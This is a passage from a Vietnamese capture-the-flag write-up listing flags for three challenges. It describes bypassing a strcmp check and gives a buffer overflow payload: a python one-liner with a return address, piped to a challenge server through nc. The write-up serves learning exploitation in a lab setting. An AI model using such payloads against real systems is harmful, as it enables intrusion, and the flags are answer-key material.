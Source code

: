 ![Store](./sources/Store.gif)


	Flag: HCMUS-CTF{N3v3r_Us3_srand_time_0}

### Secret

- Đọc asm sấp mặt và nhận ra cái hàm strcmp có lỗ hổng
- Vì hàm strcmp trả về số nguyên nên chỉ cần match giá trị đầu là được
- Nên mình nc xong nhập H 

![Secret](./sources/Secret.gif)


	Flag: HCMUS-CTF{strncmp_is_so_fun}

### Flow me
- Xài pwngdb thì thấy có thể xài overflow được.
- Xong xài python -c “print ‘A’*16*4*4 + 8*’A’ + ‘\xae\x07\x40\x00’” > file 
- Xong nc ip port < file

![Flowme](./sources/Flowme.gif)	 


	Flag: HCMUS-CTF{You_have_to_learn_basic_stack_based_buffer_overflow}


	

 

